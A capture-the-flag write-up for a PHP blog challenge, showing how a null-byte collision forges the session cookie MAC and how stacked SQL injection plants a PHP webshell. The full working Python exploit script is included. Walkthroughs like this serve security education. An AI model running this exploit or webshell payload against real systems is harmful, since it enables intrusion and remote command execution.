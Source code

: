 ## Shitty Blog

{% file src="../.gitbook/assets/shitty blog 🤎-a6c0b8b672817005.tar.xz" %}

We could see that when inserting entries, the `user_id` is not validated. This is also directly substituted into the SQL query, allowing an SQL injection.

Interestingly, `get_user` uses `$db->query`, while `delete_entry` uses `$db->exec`. The `exec()` function allows multiline (stacked) queries, allowing us to use [this RCE payload](https://research.checkpoint.com/2019/select-code\_execution-from-using-sqlite/) to upload a webshell.

```php
function get_user($db, $user_id) : string {
    foreach($db->query("SELECT name FROM user WHERE id = {$user_id}") as $user) {
        return $user['name'];
    }
    return 'me';
}

...

function delete_entry($db, $entry_id, $user_id) {
    $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");
}

...

if(isset($_POST['content'])) {
    insert_entry($db, htmlspecialchars($_POST['content']), $id);

    header('Location: /');
    exit;
}

$entries = get_entries($db);

if(isset($_POST['delete'])) {
    foreach($entries as $key => $entry) {
        if($_POST['delete'] === $entry['id']){
            delete_entry($db, $entry['id'], $entry['user_id']);
            break;
        }
    }

    header('Location: /');
    exit;
}
```

The difficulty lies in bypassing the following validation to insert a custom `$id` from the `session` cookie.

```php
$secret = 'SECRET_PLACEHOLDER';
$salt = '$6$'.substr(hash_hmac('md5', $_SERVER['REMOTE_ADDR'], $secret), 16).'$';

if(! isset($_COOKIE['session'])){
    $id = random_int(1, PHP_INT_MAX);
    $mac = substr(crypt(hash_hmac('md5', $id, $secret, true), $salt), 20);
}
else {
    $session = explode('|', $_COOKIE['session']);
    if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
        exit();
    }
    $id = $session[0];
    $mac = $session[1];
}
```

Notice that in `hash_hmac()`, `binary=true` is set but `crypt()` is [not binary safe](https://www.reddit.com/r/PHP/comments/t0qzl/is\_this\_a\_bug\_shouldnt\_crypt\_be\_binary\_safe/) - the function only processes the input string up to a null byte terminator!

It would therefore be trivial to find two `$id` numbers that produce the same `$mac` by bruteforcing - this happens when `hash_hmac()` returns a result starting with `\x00`.

```python
def find_collision():
    """
    Find an instance where two IDs produce '\x00' at the beginning of the hash_hmac() output,
    resulting in crypt(), which is a non binary safe function, returning the same value.

    Returns the MAC that corresponds to this result.
    """
    results = {}

    while True:
        r = requests.get(URL)
        cookie = r.headers['Set-Cookie'].split('=')[1]
        cookie = urllib.parse.unquote(cookie)

        id, mac = cookie.split('|')
        print(id, mac)
        
        if mac in results:
            return mac

        results[mac] = id
```

Since this `$mac` corresponds to the case where `hash_hmac()` returns a result starting with `\x00`, we would be able to bypass the following validation by using this `$mac` value in our session cookie, while changing the `$id` value in our session cookie until its HMAC starts with `\x00`.

```php
hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])
```

This can be done by appending different things to the end of the payload (after an SQL comment) until we get a valid value. This value will produce a `crypt()` result corresponding to the `$mac` found previously.

```python
def find_exploit_collision(exploit, mac):
    """
    Finds a collision with the exploit user ID string. Appends stuff to the back of the string until
    the hash_hmac() output begins with '\x00'.
    """
    i = 0
    exploit = urllib.parse.quote_plus(exploit).replace('+', ' ')
    while True:

        print(i)

        tmp = exploit + str(i)

        # Test if the hash_hmac() output begins with '\x00' (if it does, then the MAC is valid)
        r = requests.get(URL, cookies={'session': tmp + '|' + mac})
        if "My shitty Blog" in r.text:
            return tmp

        i += 1
```

The full script to generate the exploit payload is as follows:

```python
import requests
import urllib.parse

URL = "http://65.108.176.96:8888/"

def find_collision():
    """
    Find an instance where two IDs produce '\x00' at the beginning of the hash_hmac() output,
    resulting in crypt(), which is a non binary safe function, returning the same value.

    Returns the MAC that corresponds to this result.
    """
    results = {}

    while True:
        r = requests.get(URL)
        cookie = r.headers['Set-Cookie'].split('=')[1]
        cookie = urllib.parse.unquote(cookie)

        id, mac = cookie.split('|')
        print(id, mac)
        
        if mac in results:
            return mac

        results[mac] = id

    
def find_exploit_collision(exploit, mac):
    """
    Finds a collision with the exploit user ID string. Appends stuff to the back of the string until
    the hash_hmac() output begins with '\x00'.
    """
    i = 0
    exploit = urllib.parse.quote_plus(exploit).replace('+', ' ')
    while True:

        print(i)

        tmp = exploit + str(i)

        # Test if the hash_hmac() output begins with '\x00' (if it does, then the MAC is valid)
        r = requests.get(URL, cookies={'session': tmp + '|' + mac})
        if "My shitty Blog" in r.text:
            return tmp

        i += 1


# mac = find_collision()
mac = "QAhL.MoHxwRM3Bt/pMvSrjxnRCAxaim7VAtMVwCnNgsjtlWO3AKBcd1WY9NYPrxtUrTluTorPK4laJKcJydWB0"
print(f"Found MAC: {mac}")

exploit = find_exploit_collision("20 or 1=1; ATTACH DATABASE '/var/www/html/data/nice.php' AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('<?php system($_GET[\"cmd\"]); ?>');#", mac)
print(f"Found exploit: {exploit}")

print(f"Set session cookie: {exploit}|{mac}")
```
